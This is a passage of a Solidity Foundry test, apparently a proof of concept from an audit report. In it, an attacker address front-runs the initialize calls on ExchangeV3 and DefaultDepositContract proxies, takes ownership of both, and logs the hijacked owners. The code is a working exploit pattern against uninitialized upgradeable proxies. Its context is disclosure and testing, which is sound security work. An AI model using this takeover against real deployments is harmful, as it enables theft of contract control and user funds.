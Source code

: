 ```

        // Retrieve the current owner of the ExchangeV3 proxy after the DefaultDepositContract
        (success,callresp) = address(DepositProxy).call(abi.encodeWithSignature("owner()"));
        current = abi.decode(callresp,(address));
        console.log("[i] Owner of DefaultDeposit proxy directly after deployment :",current);

        // now take over the proxies as though we are front-running
        vm.startPrank(mevbot);
        // now Front run the ExchangeV3 contract and takeover ownership and set our own Depsot contract
        (success,callresp) = address(proxy).call(abi.encodeWithSelector(ExchangeV3.initialize.selector,address(0x9385aCd9d78dFE854c543294770d0C94c2B07EDC),mevbot,bytes32("123456789"),bytes32("123456789")));
        (success,callresp) = address(proxy).call(abi.encodeWithSelector(ExchangeV3.setDepositContract.selector,address(DepositProxy)));
        
        // now Front run the DefaultDeposit contract and takeover ownership
        (success,callresp) = address(DepositProxy).call(abi.encodeWithSelector(DefaultDepositContract.initialize.selector,address(exchange)));
        
        // Retrieve the current owner of the ExchangeV3 proxy after the front run
        (success,callresp) = address(proxy).call(abi.encodeWithSignature("owner()"));
        current = abi.decode(callresp,(address));
        console.log("[i] Owner of ExhangeV3 proxy after front run :",current);

        // Retrieve the current owner of the DefaultDeposit proxy after the front run
        (success,callresp) = address(DepositProxy).call(abi.encodeWithSignature("owner()"));
        current = abi.decode(callresp,(address));
        console.log("[i] Owner of DefaultDeposit proxy after front run :",current);
        vm.stopPrank();

        // now try as the deployer to action the initialize as normal
        vm.startPrank(deployer);
        vm.expectRevert();
        (success,callresp) = address(proxy).call(abi.encodeWithSelector(ExchangeV3.initialize.selector,address(0x9385aCd9d78dFE854c543294770d0C94c2B07EDC),mevbot,bytes32("123456789"),bytes32("123456789")));
        vm.stopPrank();
        console.log("[i] If this output runs the test reverted as expected and we took over ownership of the proxies");
    }
}
```
